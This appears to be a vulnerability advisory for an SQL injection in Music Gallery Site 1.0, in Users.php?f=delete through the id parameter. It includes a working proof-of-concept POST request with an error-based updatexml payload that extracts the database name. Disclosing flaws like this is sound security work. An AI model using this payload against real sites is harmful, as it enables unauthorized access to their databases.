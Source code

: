 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
/php-music/classes/Users.php?f=delete

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/classes/Users.php?f=delete with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /php-music/classes/Users.php?f=delete HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://localhost
Connection: close
Referer: http://localhost/php-music/admin/?page=user/list
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=3+and+updatexml(1%2Cconcat(0x7e%2C(database()))%2C3)--+q 
```

Get database name 
<img width="1216" alt="image" src="https://github.com/user-attachments/assets/ec110910-6013-4d4e-8442-f1875bc1c006">





